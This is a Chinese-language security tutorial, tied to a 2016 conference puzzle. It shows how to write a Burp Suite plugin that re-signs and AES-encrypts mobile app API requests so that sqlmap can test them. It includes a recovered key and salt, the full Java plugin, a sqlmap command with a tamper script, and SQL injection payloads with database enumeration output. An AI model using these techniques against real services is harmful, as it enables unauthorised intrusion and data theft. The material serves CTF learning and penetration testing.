




### 签名加密破除-burp插件在app接口fuzz中的运用

**Author:瘦蛟舞**

**Create:20160621**

#### 0x00 引子

---

文章本是计划在五月完成，由于一直没有合适放出的案例导致此计划一直搁浅。巧遇乌云峰会puzzle，于是出了一道相关的题目，顺便放出此文以供大家交流学习。

峰会题目地址传送门：

[http://summit.wooyun.org/2016/puzzle.html](http://summit.wooyun.org/2016/puzzle.html)

#### 0x01 初出茅庐

---

随着时间的推进，攻防两端的进步。越来越多的开发者选择在app的通信中加入加密和签名机制以提高整体的安全性，这种做法确实是提高攻击以及漏洞挖掘的门槛，而如何跨过这个门槛就是本文的中心内容。

<!--more-->

加解密相关的内容可以参考下文：

[Android密码学相关-案例wifi万能钥匙](https://github.com/WooyunDota/DroidDrops/blob/master/2015/Android%E5%AF%86%E7%A0%81%E5%AD%A6%E7%9B%B8%E5%85%B3-%E6%A1%88%E4%BE%8Bwifi%E4%B8%87%E8%83%BD%E9%92%A5%E5%8C%99.md)

你是否在测试过程中遇到这样的困惑？

你是否在抓到这样的包后一脸萌比？

要解决这些问题，简单来说就是需要一个中转脚本来进行加解密和恢复签名的操作。主站现在已经有些案例利用到这个小技巧。

http://www.wooyun.org/bugs/wooyun-2010-0210847

http://www.wooyun.org/bugs/wooyun-2010-0215621

#### 0x02 崭露头角

---

我这里选择利用burp的插件来完成这个脚本，选择burp的优势是可以做一些扫描也可以结合其他工具比如sqlmap组合攻击。我学习这个插件的写法是通过看官方示例代码和api，以及在github上搜索相关代码。

https://portswigger.net/burp/extender/

https://portswigger.net/burp/extender/api/index.html

https://github.com/search?q=IBurpExtender&type=Code&utf8=%E2%9C%93

drops上也有几篇文章写的非常不错。

http://drops.wooyun.org/papers/3962

http://drops.wooyun.org/tools/14040

http://drops.wooyun.org/tools/14685

http://drops.wooyun.org/tools/16056

这里最简化的处理流程，只需要掌握插件的基本的写法和IHttpListener、IExtensionHelpers、IBurpExtenderCallbacks这几个关键接口。

1. 实现IHttpListener接口，重写processHttpMessage方法
2. 注册IHttpListener接口，callbacks.registerHttpListener(this);
3. 在processHttpMessage方法中对请求响应包进行加解密以及恢复签名操作。

<!-- 可以补充一些关键方法对使用和类介绍-->

关键方法1:发送http请求和接受http响应的时候被调用

	void processHttpMessage(int toolFlag, boolean messageIsRequest, IHttpRequestResponse messageInfo);

| 参数               | 描述                            |
| ---------------- | ----------------------------- |
| toolFlag         | 用于burp tool判断是否发出请求的flag      |
| messageIsRequest | 判断区分请求还是响应的flag               |
| messageInfo      | http包的具体细节，可以从中取得请求或者响应包的二进制流 |

关键方法2:分析处理http请求

	IRequestInfo analyzeRequest(IHttpService httpService, byte[] request);
	
	
| 参数               | 描述                            |
| ---------------- | ----------------------------- |
| httpService|请求服务相关包括host／method等信息，可以设置为空 |
| request|待分析的requst二进制流           |
| return|IRequestInfo包含requst的各种细节，可以取出parameter／header等|

关键方法3:通过制定headers和body重组http消息

	byte[] buildHttpMessage(List<String> headers, byte[] body);
	
参数 | 描述
--- | --- 
headers | http请求头
body | http请求body
return | http message二进制流

起初计划是做成通用插件的，还是通过分析了一些app梳理这个通用插件所要提供的diy项后为放弃了。个人觉得这么复杂的选项（还要求有逆向基础）实在是不如改插件代码来的快。

1. 需要提供的 editor
	- host/port/protocol填写, host : [ z.cn ] 
	- 算法选择 , hash : [ md5/sha256.... ]
	- 是否排序Map sort, sort : [ Y ]
	- 签名参数填写, key : [ sign ] 
	- 盐值填写,salt : []
	- 需要替换的参数 param1/param2 : [] , 替换后参数的内容 value : []
	- 需要拼接的参数, key/value ,其中 key 是否需要拼接.
	- 是否拼接 uri
	- 拼接前是否大小写转换...
	
2. 支持的 hash / 加密算法
	- md5 : encode16 / encode32
	- sha : sha1 / sha256
	- encrytion : aes/des/rsa...
	
3. 后续需加入的功能
	- 支持更多编码: hex / unicode /base64
	- 支持时间戳修正: timestamp

#### 0x03 你的剑就是我的剑

---

掌握burp插件的写法后需要继续分析客户的加密和签名算法，这里也可以选择用cydia的插件Introspy来完成加密算法的分析。

得出加密采用AES/ECB/PKCS5Padding,密钥写在native中。

签名采用md5,salt同样写在native中。

简单看下so就有aes密钥和hash的salt了，同时这两个也是part1和part2.

现阶段在没有插件的条件下我们就可以手动用util类进行解密和数据篡改了。

请求body密文

D7A0B5D14A27FB858F62C66CCFA533FE7213566B6D50DF5FF19CE796FECE12D074B0E931907958D14F4CD6BE90D4BCB4E1225BD3C530FB6B00BFC810942CC845

解密后为

id=3&sign=3012fa31b42aa09a032db0f23d522bcf&dateline=1466505472

响应body密文

d9e128643d46562942c62de2e81dd1f34b50dcb0b9853f0ad67000bfeb34e347

解密后为

data: third data

#### 0x04 弱点击破

结合破解到算法我们现在就可以写出这个中转插件了。

拦截客户端请求requst -> 提取参数，修复签名 -> aes加密后发送 -> 拦截服务端响应response －> aes解密

	!#java
	public class BurpExtender implements IBurpExtender, IHttpListener, IMessageEditorTabFactory {

	    private static final String HOST = "sangebaimao.com";
	    private static final String mSign = "sign";
	    public static final String salt = "3edczxcv";
	    public static final String key = "bhu8nhy6!QAZ@WSX";
	    private IExtensionHelpers helpers;
	    private IBurpExtenderCallbacks mCallbacks;

	    //
	    // implement IBurpExtender
	    //

	    @Override
	    public void registerExtenderCallbacks(IBurpExtenderCallbacks callbacks) {
	        // obtain an extension helpers object
	        helpers = callbacks.getHelpers();
	        // set our extension name
	        callbacks.setExtensionName("WY summit");
	        // register ourselves as an HTTP listener
	        callbacks.registerHttpListener(this);
	//        callbacks.issueAlert("loaded success");
	        mCallbacks = callbacks;
	    }

	    //
	    // implement IHttpListener
	    //

	    @Override
	    public void processHttpMessage(int toolFlag, boolean messageIsRequest, IHttpRequestResponse messageInfo) {

	        IHttpService httpService = messageInfo.getHttpService();

	        if (messageIsRequest && httpService.getHost().endsWith(HOST)) {

	            byte[] req = messageInfo.getRequest();
	            IRequestInfo reqInfo = helpers.analyzeRequest(httpService, req);

	            String path = reqInfo.getUrl().getPath();
	            String method = reqInfo.getMethod();
	            String payload = "";
	            List<IParameter> param = reqInfo.getParameters();
	            //PATCH method can not get parmaters
	//            for (IParameter tmp:param) {
	//
	//                Util.log(mCallbacks,tmp.getName()+":"+tmp.getValue());
	//
	//            }
	            String reqStr = new String(messageInfo.getRequest());
	            String messageBody = reqStr.substring(reqInfo.getBodyOffset());
	            payload = messageBody.substring(3);
	            payload = helpers.urlDecode(payload);
	            String data = "id="+payload+"&sign="+Util.md5(payload+salt);
	            String sec = Util.aesEncode(key,data);
	//            Util.log(mCallbacks,"data:"+data+"\nsec:"+sec);
	            req = helpers.buildHttpMessage(reqInfo.getHeaders(),helpers.stringToBytes(sec));
	            messageInfo.setRequest(req);

	        }else {
	            byte[] response = messageInfo.getResponse();
	            IResponseInfo respInfo = helpers.analyzeResponse(response);
	            int offset = respInfo.getBodyOffset();
	            String body = helpers.bytesToString(response).substring(offset);
	            String plantext = Util.aesDecode(key,body);
	            messageInfo.setResponse(helpers.stringToBytes(plantext));
	        }

	    }
	}

插件build后加载到burp中enable，再将sqlmap的流量代理到burp中，因为这个注入还有一个坑就是将space空格给替换了，所以这里加入一个tamper脚本来绕过这个filter机制。

sqlmap -r ~/Documents/cracksql.txt --proxy http://127.0.0.1:8080 --tamper space2hash.py

	sqlmap identified the following injection point(s) with a total of 78 HTTP(s) requests:
	---
	Parameter: id (PATCH)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: id=1 AND 3122=3122

	    Type: AND/OR time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
	    Payload: id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))GVuA)

	    Type: UNION query
	    Title: MySQL UNION query (NULL) - 2 columns
	    Payload: id=-5803 UNION ALL SELECT NULL,CONCAT(0x716a6a7871,0x647970627157614649706c49466f647248475a6f6f66555977736d644845537976796a696c645953,0x7171707171)#
	---
	back-end DBMS: MySQL 5.0.12
	sqlmap resumed the following injection point(s) from stored session:
	---
	Parameter: id (PATCH)
	    Type: boolean-based blind
	    Title: AND boolean-based blind - WHERE or HAVING clause
	    Payload: id=1 AND 3122=3122

	    Type: AND/OR time-based blind
	    Title: MySQL >= 5.0.12 AND time-based blind (SELECT)
	    Payload: id=1 AND (SELECT * FROM (SELECT(SLEEP(5)))GVuA)

	    Type: UNION query
	    Title: MySQL UNION query (NULL) - 2 columns
	    Payload: id=-5803 UNION ALL SELECT NULL,CONCAT(0x716a6a7871,0x647970627157614649706c49466f647248475a6f6f66555977736d644845537976796a696c645953,0x7171707171)#
	---
	back-end DBMS: MySQL 5.0.12
	available databases [4]:
	[*] information_schema
	[*] mysql
	[*] performance_schema
	[*] sangebaimao

这里如果不解密响应包的话就不能用UNION query来快速查库了，part3就在这个库里面。

### 0xff 归隐江湖

1. burp不会判断重复插件，加载新插件的时候记得移除老版本插件
2. 插件执行顺序按照ui上显示的顺序，可以使用down／up调整
3. 对method区分比较清楚，如果遇到post请求中url中也带有参数需要注意，当然一些奇怪的method处理起来也需要点变通
4. output如果输入内容较多ui显示不全，可以选择output to system console，然后去terminal中查看

<!-- 客户端，服务器，插件代码可以考虑上传到github分享给大家 --->